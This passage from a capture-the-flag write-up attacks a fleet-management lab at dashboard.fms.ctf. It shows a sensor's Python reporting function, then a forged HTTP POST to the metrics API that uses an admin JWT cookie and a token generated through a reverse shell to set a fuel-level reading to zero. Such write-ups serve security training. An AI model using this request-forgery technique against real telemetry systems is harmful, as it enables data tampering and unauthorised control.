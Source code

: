 Let's have a look on the `update_fuel_consumption` function:

```python
@http_wrap(error_value=True)
def update_fuel_consumption(consumption: int, device: DeviceConfiguration):
    payload = {
        "device_id": device.device_id,
        "sensor_id": 1,
        "sensor_data": hex(consumption),
        "sensor_type": "consumption",
        "timestamp": datetime.now(timezone.utc).isoformat(),
    }
    requests.post(
        f"{BASE_URL}/metrics/",
        json=payload,
        headers={"Content-Type": "application/json", "X-Token": str(uuid.uuid1())},
        verify=False,
    )
    logger.info(f"Fuel consumption - updated to {consumption}")
```

So we just need to generate two values:

* `timestamp` : We can just reuse the code used in the function
* `X-Token` : We can generate it directory on the sensor since we have a RCE on it. We can also use the tool we modified for the second flag.

Let's start by the sensor number one.

We choose to generate the `UUID` using the reverse shell:

```python
$ python -c "import uuid; print(str(uuid.uuid1()))"
6e15c755-38e4-11f0-8d8b-00185594ec1a
```

And we can generate the `timestamp` on our own computer using this one-liner:

```python
$ python3 -c "from datetime import datetime, timezone; print(datetime.now(timezone.utc).isoformat())"
2025-05-24T21:15:44.035058+00:00
```

We can now make the `POST` request on the `/api/metrics/` API endpoint for the `level`:

```json
POST /api/metrics/ HTTP/1.1
Host: dashboard.fms.ctf
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJhZG1pbkBmbXMuY3RmIiwiYWRtaW4iOnRydWUsImV4cCI6MTc0NzUyMjM2Mn0.pF-QSVrCqhbsTTEpPTHgrLZXRETRt095pPlGaLuHxWc
X-Token: 6e15c755-38e4-11f0-8d8b-00185594ec1a
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: application/json
Content-Type: application/json
Content-Length: 215

{
  "device_id": "c58538930763e67e57f4bc48adf94261659b0cb0375aa11665db12b19371a095",
  "sensor_id": 1,
  "sensor_type": "level",
  "sensor_data": "0x0000",
  "timestamp": "2025-05-24T21:15:44.035058+00:00"
}
```

